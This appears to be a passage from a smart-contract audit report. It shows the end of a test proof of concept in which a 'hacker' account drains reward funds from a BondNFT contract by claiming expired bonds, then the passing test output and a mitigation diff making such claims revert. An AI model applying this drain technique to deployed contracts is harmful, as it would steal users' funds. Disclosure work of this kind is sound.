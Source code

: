     +      // send diff, then drain rewards in bond
    +      await stabletoken.connect(hacker).transfer(bond.address, pending3.sub(remainReward));
    +      await lock.connect(hacker).claim(3);
    +      st = await getState();
    +      // !! bond is drained !!
    +      expect(st.bond).to.be.eq(0);
    +      // !! hacker gets all rewards !!
    +      expect(st.hacker).to.be.eq(TotalRewards.add(parseEther(700)));
    +      expect(st.pending1).to.be.gt(parseEther(3800+1000+1000));
    +      expect(st.pending2).to.be.eq(0);
    +      expect(st.pending3).to.be.eq(0);
    +    });
       });
    +
       describe("Withdrawing", function () {
         it("Only expired bonds can be withdrawn", async function () {
           await stabletoken.connect(owner).mintFor(owner.address, ethers.utils.parseEther("100"));

Output:

      Bonds
        Rewards
    claim count: 41
    remain: 7900.000000000000000002
    pending3: 8055.7342616570405578
    
          ✓ Drain BondNFT rewards
    
      1 passing (4s)

### [](#tools-used-2)Tools Used

VS Code

### [](#recommended-mitigation-steps-4)Recommended Mitigation Steps

I recommend that an expired bond should be forced to `release()`, `claim()` an expired bond should revert.

Sample code:

    diff --git a/contracts/BondNFT.sol b/contracts/BondNFT.sol
    index 33a6e76..77e85ae 100644
    --- a/contracts/BondNFT.sol
    +++ b/contracts/BondNFT.sol
    @@ -148,7 +148,7 @@ contract BondNFT is ERC721Enumerable, Ownable {
             amount = bond.amount;
             unchecked {
                 totalShares[bond.asset] -= bond.shares;
    -            (uint256 _claimAmount,) = claim(_id, bond.owner);
    +            (uint256 _claimAmount,) = _claim(_id, bond.owner);
                 amount += _claimAmount;
             }
             asset = bond.asset;
    @@ -157,8 +157,9 @@ contract BondNFT is ERC721Enumerable, Ownable {
             _burn(_id);
             emit Release(asset, lockAmount, _owner, _id);
         }
    +
         /**
    -     * @notice Claim rewards from a bond
    +     * @notice Claim rewards from an unexpired bond
          * @dev Should only be called by a manager contract
          * @param _id ID of the bond to claim rewards from
          * @param _claimer address claiming rewards
    @@ -168,6 +169,22 @@ contract BondNFT is ERC721Enumerable, Ownable {